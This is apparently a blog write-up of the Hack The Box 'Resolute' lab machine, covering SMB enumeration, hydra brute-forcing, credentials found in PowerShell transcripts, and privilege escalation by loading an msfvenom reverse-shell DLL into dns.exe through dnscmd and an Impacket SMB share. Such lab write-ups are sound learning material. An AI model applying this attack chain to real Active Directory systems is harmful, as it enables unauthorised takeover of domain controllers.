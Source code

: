 ```yaml
---
layout: single
title: Abusing DNS Admin Membership by DLL Injection in "dns.exe" for PrivEsc in Active Directory
excerpt: "Resolute was a medium level Windows computer that included a list of users and login discoveries for the SMB system. This password has been pulsed into the SMB login via hydra to the usernames identified. The listing of the privilege escalation led us to another member of the DnsAdmins group. Then, by violating his admin's right to charge the DLL injection to obtain the Admin shell."
date: 2020-05-31
classes: wide
header:
  teaser: /asset/htbwriteup/windows/resolute/intro.PNG
  teaser_home_page: true
  icon: /assets/hackthebox.webp
categories:
  - hackthebox
permalink: /htb/htbResolute
tags: [dll injection, dnscmd.exe, smbserver.py]

---
```


# HTB - Resolute

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/intro.PNG)

Resolute was a medium level Windows computer that included a list of users and login discoveries for the SMB system. This password has been pulsed into the SMB login via hydra to the usernames identified. The listing of the privilege escalation led us to another member of the DnsAdmins group. Then, by violating his admin's right to charge the DLL injection to obtain the Admin shell.

---
## Recon

- Running nmap scan give us the following information as below.
    
![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/1.png)

- As windows machine, the interesting part of course the SMB services, let's digging in via enum4linux.
- Don't forget to list all the potential accounts in the recon part. It's helping us to move further you know...
- Here, we have hint on `marko` account. See the description there. `Password set to Welcome123!`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/2.png)

- Trying to log into `marko` account doesn't work. The credential may be wrong.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/3.png)

- We have the list of usernames right? Let's try brute-force the smb login with `hydra`.
- Yayy, we have the right credential for `melanie` account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/4.png)

---
## Exploit

- Nmap scan showed that port 5985 is open. It's the default port for WinRM so catch the user flag by logging in via `evil-winrm` to melanie account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/5.png)

- After enumerating the host, we don't meet any hint. Maybe by viewing hidden files give us hint? Let's `dir-Force` and enum for hidden file of `PSTranscripts`.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/6.png)

- In the `PSTranscripts` folder, we have a text file with Resolute name on it. Open the text file, give us hint of `Powershell` script with a potential credential of `ryan` account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/7.png)

- Then, moving into `ryan` account and see what we can do there.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/8.png)

---
## Privilege escalation

### First method:

- On `ryan` desktop, there is a `note.txt` as below. What does that mean??

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/9.png)

- Enum for the groups information reveal us that ryan has `DnsAdmins` privilege. 
- If the account has `DNSAdmins` in it’s group memberships, then the user belongs to the group and we can abuse his membership to escalate to Administrator rights.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/11.png)

- Based on this [article](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2), we are launching an arbitrary DLL of SYSTEM authority on a DNS server. i.e., we must create a DLL that contains the reverse tcp code and implant it into the `dns.exe` process on the victim's DNS server (DC).
- Building our DLL `shell_reverse_tcp` payload with `msfvenom` and output to `privesc.dll`.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/12.png)

### Impacket’s smb server to the rescue:

- Hosting our payload with `smbserver.py`.
- We chose this as, in most cases, Windows allows UNC paths and samba shares by default. Also, there are times when the victim's AV or Defender can delete the payload if it's uploaded, so we'll stick to the smb server for this one. Nonetheless, working with smb can be difficult on * nix, but thankfully, we have scripts that can make the task a lot simpler. We must use the Impacket smb server to host our payload.

sudo python smbserver.py <**shareName**> <**path/of/share**> eg `sudo smbserver.py share ./`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/13.png)

### Injecting the DLL in dnscmd.exe into PS:

- `dnscmd.exe < FQDN of DC> /config /serverlevelplugindll \\UNC_path`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/14.png)

### Listening for connection and restarting dns if necessary:

- Stop and restart the DNS service as below... 

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/15.png)

- Listen for the connection and ... we have Administrator privilege.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/16(root).png)

### Second method:

- Using `windows/smb/psexec_psh` module straight into Admin shell.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/10(root).png)

Thanks...
